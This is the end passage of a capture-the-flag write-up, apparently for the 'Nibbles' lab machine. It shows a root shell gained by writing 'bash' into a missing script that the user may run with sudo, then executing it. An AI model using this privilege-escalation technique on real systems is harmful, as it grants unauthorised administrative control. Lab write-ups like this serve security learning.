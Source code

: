 While enumerating. There is no such file and directory names ``` /personal/stuff/monitor.sh ```  create and invoke bash command 

```python
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo " bash " > monitor.sh
echo " bash " > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# whoami
whoami
root
root@Nibbles:/home/nibbler/personal/stuff#
```


{{< notice success "we have successfully owned " >}}
See you on the next Blog, Happy hacking...
{{< /notice >}}